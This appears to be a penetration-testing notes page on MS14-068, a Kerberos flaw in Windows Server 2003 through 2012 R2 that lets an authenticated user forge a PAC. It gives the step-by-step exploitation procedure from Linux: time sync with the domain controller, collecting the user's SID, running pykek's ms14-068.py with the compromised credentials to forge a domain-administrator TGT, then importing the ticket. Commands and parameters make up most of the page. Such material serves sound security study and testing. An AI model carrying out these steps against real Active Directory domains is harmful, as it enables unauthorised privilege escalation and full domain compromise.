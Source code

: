 # [MS14-068](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2014/MS14-068)

> A vulnerability in the Microsoft Kerberos implementation present in Windows Server 2003, 2008, 2008 R2, 2012, and 2012 R2. The vulnerability allows an authenticated attacker to forge the PAC within a TGT and and receive a service ticket that grants the principal arbitrary privileges, including those of a domain administrator.

---

## Exploit MS14-068 to Elevate a Compromised Domain User to a Domain Administrator from Linux

Begin by ensuring the attacking Linux machine's time and date are synchronized with that of the target domain's domain controller.

```bash
$ sudo rdate -n $DOMAIN_CONTROLLER_FQDN_OR_IP
```

To exploit MS14-068, the following items are needed:

1. Fully qualified domain name (i.e., `marvel.test`)
2. Fully qualified domain name of the domain controller (i.e., `dc01.marvel.test`)
3. The SID of the compromised domain user account who you will be elevating the privileges of
	- [[lookupsid|impacket-lookupsid]]
4. Use [pykek](https://github.com/mubix/pykek) to craft a TGT whose PAC specifies the compromised domain user as a domain administrator

```bash
$ cd pykek
$ sudo python2.7 ms14-068.py -u $USERNAME@$DOMAIN -s $SID -p $PASSWORD -d $DOMAIN_CONTROLLER_FQDN
```

- `$USERNAME` is the SAM account name of the compromised domain user account who you are elevating the privileges of
- `$DOMAIN` is the FQDN of the domain (i.e., `marvel.test`)
- `$SID` is the SID of the compromised domain user account who you are elevating the privileges of
- `$DOMAIN_CONTROLLER_FQDN` the FQDN fo the domain controller (i.e., `dc01.marvel.test`)

Highly recommend ensuring both `$DOMAIN` and `$DOMAIN_CONTROLLER_FQDN` are mapped to the target domain controller in the local DNS resolver.

5. Once you've successfully crafted the TGT, [[using-kerberos-tickets|import and use it]].

---

## References

[TrustedSec's Excellent Writeup](https://www.trustedsec.com/blog/ms14-068-full-compromise-step-step/)
